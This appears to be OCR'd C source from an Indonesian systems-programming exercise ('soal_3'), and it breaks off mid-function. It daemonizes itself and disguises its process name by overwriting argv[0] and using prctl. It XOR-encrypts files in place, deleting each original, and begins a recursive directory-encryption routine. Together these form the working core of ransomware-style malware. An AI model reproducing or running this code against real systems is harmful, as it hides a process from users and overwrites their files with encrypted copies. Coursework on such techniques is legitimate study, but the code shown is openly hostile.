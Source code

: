 ```C

void create_daemon() {
    pid_t pid, sid;

    pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) exit(EXIT_SUCCESS);

    umask(0);

    sid = setsid();
    if (sid < 0) exit(EXIT_FAILURE);

    if ((chdir("/")) < 0) exit(EXIT_FAILURE);

    for (int x = sysconf(_SC_OPEN_MAX); x >= 0; x--) {
        close(x);
    }
}

void menyamarkan_process(int argc, char **argv) {
    environ = NULL;
    prctl(PR_SET_NAME, "/soal_3", 0, 0, 0);

    if (argc > 0) {
        size_t len = 64;
        memset(argv[0], 0, len);
        strncpy(argv[0], "/soal_3", len);
    }
}

void xorfile(const char *filename, unsigned int key) {
    char tmp_filename[512];
    snprintf(tmp_filename, sizeof(tmp_filename), "%s.tmp", filename);

    FILE *in = fopen(filename, "rb");
    FILE *out = fopen(tmp_filename, "wb");

    if (!in || !out) {
        perror("File error");
        if (in) fclose(in);
        if (out) fclose(out);
        return;
    }

    int ch;
    while ((ch = fgetc(in)) != EOF) {
        fputc(ch ^ key, out);
    }

    fclose(in);
    fclose(out);

    remove(filename);
    rename(tmp_filename, filename);
}

void encrypt(const char *path, unsigned int key) {
    DIR *dir = opendir(path);
    if (!dir) return;

    struct dirent *entry;
    char fullpath[1024];
```